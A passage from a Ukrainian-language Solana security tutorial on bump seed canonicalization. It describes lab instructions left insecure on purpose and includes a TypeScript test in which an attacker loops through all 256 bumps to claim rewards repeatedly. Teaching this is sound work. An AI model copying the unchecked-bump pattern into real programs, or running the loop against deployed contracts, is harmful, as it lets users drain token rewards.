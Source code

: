 Зверніть увагу, що у програмі є дві інструкції та один тест у каталозі `tests`.

Інструкції у програмі:

1. `create_user_insecure`
2. `claim_insecure`

Інструкція `create_user_insecure` просто створює новий обліковий запис за адресою PDA, який походить від публічного ключа підписувача та переданого значення bump.

Інструкція `claim_insecure` карбує (mint) 10 токенів користувачу, а потім відзначає винагороди облікового запису як отримані, щоб їх не можна було заклеймити ще раз.

Однак програма не перевіряє, що PDA використовує канонічний bump.

Перегляньте програму, щоб зрозуміти, що вона робить, перед тим як продовжувати.

### 2. Тести незахищених інструкцій

Оскільки інструкції не вимагають явно використовувати канонічний bump для `user` PDA, зловмисник може створити кілька облікових записів на кожен гаманець та отримати більше нагород, ніж має бути дозволено.

Тест у директорії `tests` створює нову пару ключів під назвою `attacker`, щоб представити зловмисника. Потім він пройде через всі можливі bump і викличе `create_user_insecure` та `claim_insecure`. В кінці тест очікує, що зловмисник зміг отримати нагороди кілька разів та заробив більше, ніж 10 токенів на одного користувача.

```typescript
it("Attacker can claim more than reward limit with insecure instructions", async () => {
    const attacker = Keypair.generate()
    await safeAirdrop(attacker.publicKey, provider.connection)
    const ataKey = await getAssociatedTokenAddress(mint, attacker.publicKey)

    let numClaims = 0

    for (let i = 0; i < 256; i++) {
      try {
        const pda = createProgramAddressSync(
          [attacker.publicKey.toBuffer(), Buffer.from([i])],
          program.programId
        )
        await program.methods
          .createUserInsecure(i)
          .accounts({
            user: pda,
            payer: attacker.publicKey,
          })
          .signers([attacker])
          .rpc()
        await program.methods
          .claimInsecure(i)
          .accounts({
            user: pda,
            mint,
            payer: attacker.publicKey,
            userAta: ataKey,
          })
          .signers([attacker])
          .rpc()

        numClaims += 1
      } catch (error) {
        if (
          error.message !== "Invalid seeds, address must fall off the curve"
        ) {
          console.log(error)
        }
```